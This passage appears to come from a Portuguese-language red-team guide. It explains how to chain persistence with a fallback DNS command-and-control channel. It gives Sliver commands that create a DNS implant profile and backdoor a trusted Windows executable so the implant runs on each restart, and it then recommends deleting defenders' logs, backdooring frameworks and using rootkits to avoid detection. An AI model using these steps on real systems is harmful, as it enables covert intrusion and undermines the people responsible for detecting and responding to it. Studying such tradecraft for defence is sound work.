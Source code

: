 - https://beyondbinary.io/articles/domain-fronting-with-metasploit-and-meterpreter/
- https://lmntrix.com/blog/lmntrix-labs-hiding-in-plain-sight-with-reflective-injection-and-domain-fronting/


#### Combining offensive techniques

Agora, vamos encadear algumas das técnicas anteriores para nossa kill chain. 

Aqui, vamos juntar tudo: nossos mecanismos de persistência fornecidos com nosso canal de comando e controle de fallback. Nosso objetivo é configurar um agente Sliver como um canal de persistência de longa distância, a partir de um executável já confiável e persistido.
A partir dessa sessão DNS persistida, podemos migrar para outra sessão operacional, para
ajudar a nos desassociar do nosso mecanismo de persistência.

Já devemos ter nosso DNS configurado a partir da seção DNS C2.

- você pode ver um exemplo de config de dns aqui na doc do sliver https://sliver.sh/docs?name=DNS+C2

Em seguida, precisamos startar o listner dns e gerar um perfil de payload para o DNS C2, pois o usaremos para criar um backdoor em um arquivo de destino para persistência. 

Quando injetamos nosso backdoor de DNS em um arquivo PE, faremos isso a partir de uma sessão ja existente... Nosso novo perfil de backdoor pode ser especificado usando as seguintes configurações:

```create-profile --dns 1.example.com. --timeout 360 -a 386 --profile-name dns-profile```

Depois de localizar o diretório do aplicativo e o binário de destino, basta verificar suas permissões para editar o arquivo. Depois de localizar o diretório do aplicativo e o binário de destino, basta verificar suas permissões para editar o arquivo. Além disso, antes de editar o arquivo, você terá que encerrar o processo em execução, pois não é possível excluir e reescrever o arquivo enquanto ele estiver em execução no Windows. Também levar em consideração a arquitetura do binario.

Depois que tudo isso estiver pronto, nossas configurações de DNS tiverem sido configuradas e nosso perfil de implante tiver sido criado, podemos executar o seguinte comando em nossa sessão Sliver existente:

```backdoor --profile dns-profile "C:\`Path\To\Binario.exe"```


Depois de aplicar o backdoor a este arquivo, na próxima vez que este binario for reiniciado de alguma forma, você terá sua sessão dns em execução.


- https://posts.specterops.io/offensive-lateral-movement-1744ae62b14f
- https://www.bleepingcomputer.com/news/security/certutilexe-could-allow-attackers-to-download-malware
- https://x.com/notwhickey/status/1333900137232523264
- https://powersploit.readthedocs.io/en/latest/Privesc/Find-PathDLLHijack/
- https://github.com/Binject/binjection


## Active Manipulation
>___


Ao encontrar seu oponente, você pode interferir no oponente antes que ele perceba sua presença , você pode prejudicar ainda mais a capacidade dele de detectar sua existência. Isso pode ser arriscado mas pode gerar grandes dividendos quando executado com sucesso. 

• Deleting logs
• Backdooring frameworks
• Rootkits

Ao remover os logs do defensor e adulterar suas ferramentas, podemos prejudicar severamente a capacidade do defensor de detectar e responder ao evento.

```